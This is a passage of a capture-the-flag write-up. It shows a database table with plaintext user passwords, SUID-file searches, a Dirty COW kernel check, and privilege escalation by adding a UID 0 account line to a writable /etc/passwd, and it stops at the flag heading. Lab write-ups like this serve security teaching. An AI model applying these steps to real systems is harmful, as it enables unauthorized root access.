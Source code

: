 The tickets table's content is the tickets we entered before. Here's the content of the klienti table.

```
mysql> select * from klienti;
+----+-------------+---------+---------+----------+------------+
| ID | emer        | mbiemer | bilanci | username | password   |
+----+-------------+---------+---------+----------+------------+
|  1 | Charles D.  | Hobson  |   25000 | hobson   | Charles123 |
|  2 | Jeffery
   | Fischer |  120000 | jeff     | jeff321    |
+----+-------------+---------+---------+----------+------------+
2 rows in set (0.00 sec)
```

None of the password works for both taviso and root.

### Privilege Escalation

I tried to look for files that might be vulnerable to privilege escalation.

```
$ find / -user root -perm -4000 -exec ls -ldb {} \; > /tmp/rootcheck.txt
$ find / -user taviso -perm -4000 -exec ls -ldb {} \; > /tmp/tavisocheck.txt
```

Looks like nothing's usable. I checked the kernel version, hoping for a Dirty COW vulnerability to escalate my privilege using the [cowroot exploit](https://www.exploit-db.com/exploits/40616/).

```
$ uname -r
4.4.0-45-generic
```

Nope, it's already patched on this kernel version.

After inspecting the server for a while, I found that `/etc/passwd` is writable by the user www-data.

I made a backup of the `/etc/passwd` file in `/tmp/passwd.bak` in case something happens as I tinkered with the `/etc/passwd`, and tried to make myself an account with root access.

I ended up adding this line to `/etc/passwd` to create an account named sdsdkkk with root privilege.

```
sdsdkkk:[password_hash]:0:0:sdsdkkk:/:/bin/bash
```

I censored the password hash, since it's taken from one of the accounts in my /etc/shadow. After that, I switch user to sdsdkkk using the same password with the user on my host.

```
$ su sdsdkkk
```

Now, we got the root access!

### The Flag
